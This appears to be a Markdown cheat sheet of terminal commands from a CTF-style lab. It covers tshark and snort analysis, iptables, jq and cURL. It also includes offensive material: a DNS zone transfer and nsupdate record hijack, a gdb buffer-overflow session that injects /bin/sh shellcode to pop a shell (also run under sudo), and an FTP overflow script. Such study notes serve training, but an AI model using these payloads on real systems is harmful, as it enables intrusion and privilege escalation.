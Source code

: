 # Various Terminal commands

### How do you find and follow a tcp stream with tshark?
```
tshark -r snort.log.pcap -Y "http.user_agent contains Xenomorph" -T fields -e tcp.stream
tshark -r snort.log.pcap -z follow,tcp,ascii,5
```

### What is an example snort rule to alert on traffic with certain content or user_agent?
```
alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:'YO WTF'; content:'Xenomorph'; sid:1000001; rev:1;classtype:trojan-activity)
```
`pcre` can be used instead of `content` to perform a regular expression filter

### What is scalpel?
It's a way to use extract files from an image binary if you know the headers and footers of the file you're looking for. It works best if you use the real hex values that you're trying to find.

### How do you use dig to perform a domain transfer?
Check `/etc/bind/` for any information on what IP addresses are allowed to modify domains.
```
dig @127.0.0.1 norehca.planet axfr -b 127.34.243.1
```

### How do you use nsupdate to modify subdomain information?
Check `/etc/bind/` for any information on what IP addresses are allowed to modify domains.
```
$ nsupdate
> server 127.0.0.1
> local 127.34.0.1
> update delete  hive.norehca.planet. A
> update add hive.norehca.planet. 600 A 127.0.0.1
> send
```

### Dump of various iptables commands:
```
1. Set the default policies to DROP for 
   the INPUT,FORWARD and OUTPUT chains.

sudo iptables -P INPUT DROP
sudo iptables -P FORWARD DROP
sudo iptables -P OUTPUT DROP

2. Create a rule to LOG all new SSH 
   connection attempts.
   
sudo iptables -I OUTPUT -p tcp -m tcp --dport 22 -m state --state NEW,ESTABLISHED -j LOG --log-prefix "Outgoing SSH connection"
sudo iptables -I INPUT -p tcp -m tcp --dport 22 -m state --state NEW,ESTABLISHED -j LOG --log-prefix "Outgoing SSH connection"

3. Create a rule to ACCEPT all connections 
   that are ESTABLISHED,RELATED on the INPUT
   and the OUTPUT chains.

sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT
sudo iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT

4. Create a rule to allow only remote source 
   ip address 172.18.0.222 to access the local
   SSH server on (port 22).

sudo iptables -A INPUT -p tcp -s 172.18.0.222 --dport 22 -j ACCEPT

5. Create a rule to allow any remote ip to 
   access local tcp servers on ports 25 and 80.

sudo iptables -A INPUT -p tcp --dport 25 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j ACCEP

6. Create a rule applied to the INPUT chain
   to ACCEPT all traffic from the lo interface.

sudo iptables -A INPUT -i lo -j ACCEPT

7. Create a rule to allow UDP port 53 and TCP 
   port 80 connections going out (OUTPUT).

sudo iptables -A OUTPUT -p udp --dport 53 -j ACCEPT
sudo iptables -A OUTPUT -p tcp --dport 80 -j ACCEPT
```

### How do you save and use cookies with cURL?
```
curl localhost/cache --cookie-jar cookie.txt
curl localhost/upload --cookie cookie.txt
```

### How do you get and delete files from an FTP server with cURL?
```
curl -u ftpuser:ftppass ftp://127.0.0.1/filename1 -O filename1
curl ftp://ftpuser:ftppass@localhost -Q "DELE xenomorph1"
```

### How do you analyze a pcap file with an SSL keylog file?
```
tshark -r <capture_file>  -Y <wireshark_filter>  -o ssl.keylog_file:client_random.log
```

### How can you use scapy to realign the ports for server and client so that tshark can analyze the file?
```
#!/usr/bin/python
from scapy.all import *

packets = rdpcap('covert_channel.pcap')
for packet in packets:
  if packet[IP].src == '10.124.245.32':
    packet[TCP].sport = 443
    packet[TCP].dport = 59292
  else:
    packet[TCP].sport = 59292
    packet[TCP].dport = 443

wrpcap('fixed_ports.pcap', packets)
```

### Give an example of using gdb and using a payload from shell-storm to pop a shell by overwriting EIP and directing code to run the payload:
```
weyuser@14c7b2eb3e7f:~$ gdb xeno_scanner.elf 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from xeno_scanner.elf...(no debugging symbols found)...done.
(gdb) r $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x90\xd6\xff\xffAAAAA")
Starting program: /home/weyuser/xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x90\xd6\xff\xffAAAAA")
Xenomorph Scanner. Testing DNA of user with specified $UID...
Storing your DNA at: 0xffffd690
User with UID " 1�Ph//shh/bin��PS��
                                   ̀ABCDEFGHIJKLMNOPQRST����AAAAA" is NOT infected with Xeno-DNA.
Program received signal SIGSEGV, Segmentation fault.
0xffffd690 in ?? ()
(gdb) info registers
eax            0x0      0
ecx            0x7fffffbb       2147483579
edx            0xf7fcd870       -134424464
ebx            0xffffd6f0       -10512
esp            0xffffd6c0       0xffffd6c0
ebp            0x54535251       0x54535251
esi            0xf7fcc000       -134430720
edi            0xf7fcc000       -134430720
eip            0xffffd690       0xffffd690
eflags         0x10286  [ PF SF IF RF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb) r $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x91\xd6\xff\xffAAAAA")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/weyuser/xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80ABCDEFGHIJKLMNOPQRST\x91\xd6\xff\xffAAAAA")
Xenomorph Scanner. Testing DNA of user with specified $UID...
Storing your DNA at: 0xffffd690
User with UID " 1�Ph//shh/bin��PS��
                                   ̀ABCDEFGHIJKLMNOPQRST����AAAAA" IS infected with xeno-DNA. Please report to the medical bay for immediate extraction
process 35 is executing new program: /bin/dash
$ ls
HELP  xeno_scanner.c  xeno_scanner.elf
$ whoami
weyuser
```

### After finding the correct payload, how can you execute a file with the payload?
```
weyuser@8914c8642587:~$ sudo ./xeno_scanner.elf $(printf "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80AAAAAAAAAAAAAAAAAAAA\xb1\xd6\xff\xffAAAAAAAA")
```

### Give an example jq query to filter entries based on a field matching an array of names:
```
jq '.[]| select(.name.first | contains("Ellen","Ash","Dallas","Lambert","Brett","Kane","Parker")) ' crew.json
```

### Give an example jq query to combine fields and print them in CSV format:
```
jq -cr '.[]| select(.name.first | contains("Ellen","Ash","Dallas","Lambert","Brett","Kane","Parker")) | [.latitude,.longitude] | @csv' crew.json
```

### Give an example of a scripted FTP command:
```
#!/bin/bash
HOST='127.0.0.1'
USER='root'
PASSWD=$(python -c "print('pass'+10000*'A')")
ftp -n -v $HOST << EOT
user $USER $PASSWD
ls
EOT
```

### What command helps to find non-standard open ports?
```
nmap -sV --open -p10-4000 mine.wey-tech.com
```

### After finding an smbd from nmap, what executable can help uncover more info?
```
nmap <host> -sV -sC 
smbclient -L 10.3.3.45
smbclient //10.3.3.45/weytechshare -c ls
```
